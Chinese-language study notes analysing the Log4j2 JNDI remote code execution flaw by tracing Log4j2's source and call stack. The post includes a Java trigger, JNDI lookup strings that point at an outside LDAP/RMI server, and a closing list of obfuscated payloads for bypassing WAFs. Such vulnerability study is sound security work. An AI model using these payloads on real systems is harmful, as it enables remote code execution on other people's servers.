







# Log4j2-rce-学习


## 前言

当时漏洞出的时候在准备期末考试就没管，现在重新拾起来。。


## exp

```java
package com.summer.test;

import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class Test {
    private static final Logger log = LogManager.getLogger();
    public static void main(String[] args) {
        log.error("${jndi:ldap://xxxx/6gi89k}");
    }
}

```


看这洞也就知道了其实就是个jndi注入了。


## 分析

打个断点跟一下吧。首先是到这里：



需要`isEnabled`为true才能继续logMessage，跟进一下代码就知道，一共有这些个Level：


而`isEnabled()`函数跟到后面就是这里的判断：


`intLevel`这个量是200，int值小于等于200的level才能触发：


所以error和fatal都可以，这就是为什么我们用`error()`来触发的原因。

继续往下跟，最后会发现在`LoggerConfig.java`的456这一行的`log()`成功弹出了计算器，继续跟进。需要注意这时候的logEvent的message就是我们的payload：



接着在`PatternLayout.java`的第344行不断调用`format()`方法，进行输出的日志信息的处理。


当i为8的时候，此时的`formatters[i]`如图：



是对Message进行处理的。

然后跟进到最终的`format()`方法，前面已经进行了Message的处理，添加到了`workingBuilder`里面：



看到那个`// TODO can we optimize this?`的注释。。。666


然后从127行开始处理`workingBuilder`，一旦匹配到了`${`，就把`${`一直到末尾那部分截取出来，然后进行替换：

```java
workingBuilder.append(config.getStrSubstitutor().replace(event, value));
```

跟进`replace()`函数,这个函数的作用是使用给定的源字符串作为模板，用来自解析器的匹配值替换所有出现的变量。


进入`substitute()`的处理：

> 用于多级插值的递归处理程序。 这是主要的插值方法，它解析传入文本中包含的所有变量引用的值。

所以其实log4j2对于`${}`的处理关键就在这里了。

```java
    private int substitute(final LogEvent event, final StringBuilder buf, final int offset, final int length,
                           List<String> priorVariables) {
        final StrMatcher prefixMatcher = getVariablePrefixMatcher();
        final StrMatcher suffixMatcher = getVariableSuffixMatcher();
        final char escape = getEscapeChar();
        final StrMatcher valueDelimiterMatcher = getValueDelimiterMatcher();
        final boolean substitutionInVariablesEnabled = isEnableSubstitutionInVariables();

        final boolean top = priorVariables == null;
        boolean altered = false;
        int lengthChange = 0;
        char[] chars = getChars(buf);
        int bufEnd = offset + length;
        int pos = offset;
        while (pos < bufEnd) {
            final int startMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd);
            if (startMatchLen == 0) {
                pos++;
            } else // found variable start marker
            if (pos > offset && chars[pos - 1] == escape) {
                // escaped
                buf.deleteCharAt(pos - 1);
                chars = getChars(buf);
                lengthChange--;
                altered = true;
                bufEnd--;
            } else {
                // find suffix
                final int startPos = pos;
                pos += startMatchLen;
                int endMatchLen = 0;
                int nestedVarCount = 0;
                while (pos < bufEnd) {
                    if (substitutionInVariablesEnabled
                            && (endMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd)) != 0) {
                        // found a nested variable start
                        nestedVarCount++;
                        pos += endMatchLen;
                        continue;
                    }

                    endMatchLen = suffixMatcher.isMatch(chars, pos, offset, bufEnd);
                    if (endMatchLen == 0) {
                        pos++;
                    } else {
                        // found variable end marker
                        if (nestedVarCount == 0) {
                            String varNameExpr = new String(chars, startPos + startMatchLen, pos - startPos - startMatchLen);
                            if (substitutionInVariablesEnabled) {
                                final StringBuilder bufName = new StringBuilder(varNameExpr);
                                substitute(event, bufName, 0, bufName.length());
                                varNameExpr = bufName.toString();
                            }
                            pos += endMatchLen;
                            final int endPos = pos;

                            String varName = varNameExpr;
                            String varDefaultValue = null;

                            if (valueDelimiterMatcher != null) {
                                final char [] varNameExprChars = varNameExpr.toCharArray();
                                int valueDelimiterMatchLen = 0;
                                for (int i = 0; i < varNameExprChars.length; i++) {
                                    // if there's any nested variable when nested variable substitution disabled, then stop resolving name and default value.
                                    if (!substitutionInVariablesEnabled
                                            && prefixMatcher.isMatch(varNameExprChars, i, i, varNameExprChars.length) != 0) {
                                        break;
                                    }
                                    if (valueEscapeDelimiterMatcher != null) {
                                        int matchLen = valueEscapeDelimiterMatcher.isMatch(varNameExprChars, i);
                                        if (matchLen != 0) {
                                            String varNamePrefix = varNameExpr.substring(0, i) + Interpolator.PREFIX_SEPARATOR;
                                            varName = varNamePrefix + varNameExpr.substring(i + matchLen - 1);
                                            for (int j = i + matchLen; j < varNameExprChars.length; ++j){
                                                if ((valueDelimiterMatchLen = valueDelimiterMatcher.isMatch(varNameExprChars, j)) != 0) {
                                                    varName = varNamePrefix + varNameExpr.substring(i + matchLen, j);
                                                    varDefaultValue = varNameExpr.substring(j + valueDelimiterMatchLen);
                                                    break;
                                                }
                                            }
                                            break;
                                        } else if ((valueDelimiterMatchLen = valueDelimiterMatcher.isMatch(varNameExprChars, i)) != 0) {
                                            varName = varNameExpr.substring(0, i);
                                            varDefaultValue = varNameExpr.substring(i + valueDelimiterMatchLen);
                                            break;
                                        }
                                    } else if ((valueDelimiterMatchLen = valueDelimiterMatcher.isMatch(varNameExprChars, i)) != 0) {
                                        varName = varNameExpr.substring(0, i);
                                        varDefaultValue = varNameExpr.substring(i + valueDelimiterMatchLen);
                                        break;
                                    }
                                }
                            }

                            // on the first call initialize priorVariables
                            if (priorVariables == null) {
                                priorVariables = new ArrayList<>();
                                priorVariables.add(new String(chars, offset, length + lengthChange));
                            }

                            // handle cyclic substitution
                            checkCyclicSubstitution(varName, priorVariables);
                            priorVariables.add(varName);

                            // resolve the variable
                            String varValue = resolveVariable(event, varName, buf, startPos, endPos);
```

`prefixMatcher`是`${`，`suffixMatcher`是`}`


在`final int startMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd);`判断是否匹配到`${`，得到偏移

同理得到`}`，然后截断给`varNameExpr`：

```java
                            String varNameExpr = new String(chars, startPos + startMatchLen, pos - startPos - startMatchLen);

```

此时的`varNameExpr`就是`jndi:ldap://121.5.169.223:39876/Evil`。

接着在这里又对`jndi:ldap://121.5.169.223:39876/Evil`调用一次`substitute`：

```java
                            if (substitutionInVariablesEnabled) {
                                final StringBuilder bufName = new StringBuilder(varNameExpr);
                                substitute(event, bufName, 0, bufName.length());
                                varNameExpr = bufName.toString();
                            }
```

其实就是递归处理了，这也是之后会提到到类似`${${}}`这样的写法，因为它是递归处理的。

经过一些的处理后进入`String varValue = resolveVariable(event, varName, buf, startPos, endPos);`：




而`lookup`方法的作用就是解析指定的变量。 此实现将尝试从给定的变量名称中提取变量前缀（第一个冒号 (':') 用作前缀分隔符）。 然后它将带有前缀的变量名称传递给为此前缀注册的查找对象。 如果找不到前缀或关联的查找对象无法解析此变量，则将使用默认查找对象。


分割出前缀为`jndi`，name是`ldap://121.5.169.223:1389/6gi89k`。再根据前缀得到lookup：




然后调用相应的`lookup`方法：

```java
value = event == null ? lookup.lookup(name) : lookup.lookup(event, name);
```

最后在这里调用：



`this.context`是`InitialContext`，调用lookup方法，name就是我们的payload，跟之前学习jndi注入时候的demo是一样的了：

```java
package com.feng.jndi;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.Name;
import java.rmi.Naming;

public class Client {
    public static void main(String[] args) throws Exception {
        String url = "rmi://121.5.169.223:39654/feng";
        Context context = new InitialContext();
        context.lookup(url);
    }
}
```

实现jndi注入。


调用栈：

```
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:344, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2017, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:10, Test (com.summer.test)
```


## 绕waf

实际上简单的waf可以直接利用递归解析来绕过了，所以根据过程中的对于特殊字符的处理，可以绕过waf，比较类似fastjson那种吧，比如`L;`以及`[`这样的。

给出网上收集的payload：

```java
${jndi:ldap://domain.com/j}
${jndi:ldap:/domain.com/a}
${jndi:dns:/domain.com}
${jndi:dns://domain.com/j}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://domain.com/j}
${${::-j}ndi:rmi://domain.com/j}
${jndi:rmi://domainldap.com/j}
${${lower:jndi}:${lower:rmi}://domain.com/j}
${${lower:${lower:jndi}}:${lower:rmi}://domain.com/j}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://domain.com/j}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://domain.com/j}
${jndi:${lower:l}${lower:d}a${lower:p}://domain.com}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//domain.com/a}
jn${env::-}di:
jn${date:}di${date:':'}
j${k8s:k5:-ND}i${sd:k5:-:}
j${main:\k5:-Nd}i${spring:k5:-:}
j${sys:k5:-nD}${lower:i${web:k5:-:}}
j${::-nD}i${::-:}
j${EnV:K5:-nD}i:
j${loWer:Nd}i${uPper::}
```

## 总结

简单学习了一下log4j2的rce，后续的绕过还没有看，以后有时间再看了。